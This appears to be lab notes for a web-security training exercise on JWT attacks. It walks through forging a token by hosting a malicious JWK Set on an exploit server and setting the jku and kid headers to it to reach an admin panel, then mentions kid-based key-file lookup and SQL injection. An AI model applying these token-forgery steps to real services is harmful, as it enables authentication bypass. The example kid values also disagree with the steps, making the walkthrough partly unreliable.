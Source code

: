     ```python
    Part 1 - Upload a malicious JWK Set
    
    1. Go to the JWT Editor Keys tab in Burp's main tab bar Click New RSA Key.
    2. Replace the contents of the Body section with an empty JWK Set as follows:
    
    {
        "keys": [
    
        ]
    }
    3. Paste the JWK into the keys array on the exploit server, then store the exploit. The result should look something like this:
    
    {
        "keys": [
            {
                "kty": "RSA",
                "e": "AQAB",
                "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
                "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw"
            }
        ]
    }
    Part 2 - Modify and sign the JWT
    1. In the header of the JWT, replace the current value of the kid parameter with the kid of the JWK that you uploaded to the exploit server.
    2. Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
    {
        "kid": "0653ce73-f728-47e7-825e-10131f2ab908",
        "alg": "RS256",
        "jku": "<https://exploit-0ab0006a04eb956a81555b35017e0062.exploit-server.net/exploit>"
    }
    
    2. click Sign, then select the RSA key that you generated in the previous section, Make sure that the Don't modify header option is selected, then click ok
    3. Send the request. Observe that you have successfully accessed the admin panel.
    ```
    
- **`kid` parameter**
    
    - **Reveal key**
        
        If the claim "`kid`" is used in the header, check the web directory for that file or a variation of it. For example if `"kid":"key/12345"` then look for _`/key/12345`_ and _`/key/12345.pem`_ on the web root.
        
    
    ```python
    # Sql Injection
    IF an application uses the kid parameter to retrieve the key from a database, it might be vulnerable to SQL injection. 
    